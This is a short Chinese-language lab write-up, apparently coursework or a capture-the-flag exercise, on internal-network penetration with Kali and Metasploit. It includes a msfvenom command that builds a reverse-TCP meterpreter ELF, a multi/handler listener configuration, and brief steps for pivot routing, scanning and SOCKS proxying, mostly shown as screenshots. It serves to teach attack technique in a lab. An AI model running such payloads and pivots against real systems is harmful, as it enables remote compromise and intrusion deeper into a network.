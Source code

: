 # 网安实践：内网渗透和攻击

## 实验环境

* kali

* metasploit

## 实验步骤

1. 在靶机上生成meterpreter.elf文件
` msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.56.102 LPORT=4422 -f elf > meterpreter.elf`
![](./pics/手动生成meterpretershell.png)


2. 上传
![](./pics/上传.png)
![](./pics/上传成功.png)

3. 在metasploit里设置如下并`run -j`等待
```
use exploit/multi/handler
set payload linux/x86/meterpreter/reverse_tcp
set lhost <攻击者主机IP>
set lport <端口>
run -j
```
注意，这里的IP和端口要和生成.elf文件时设置的一样

5. 在靶机里运行meterpreter
![](./pics/进入容器下载文件并运行.png)

6. 连接成功
![](./pics/拿到meterpretershell.png)

7. 升级shell
![](./pics/升级会话窗口.png)

8. 查看route，arp， ipconfig
![](./pics/查看arp.png)
![](./pics/查看route.png)
![](./pics/ipconfig.png)

9. 设置pivot路由
![](./pics/添加pivot路由.png)

10. 扫描
![](./pics/扫描结果1.png)
![](./pics/开放的主机和服务.png)

11. 设置代理
参照教学课件和视频
![](./pics/socks代理.png)
![](./pics/查看1080端口服务开放情况.png)
`cat /etc/proxychains4.conf` 
确认有以下配置
![](./pics/修改proxychains配置.png)
并且配置浏览器代理
![](./pics/代理3.png)

12. 成功访问第一层
![](./pics/第三个flag.png)

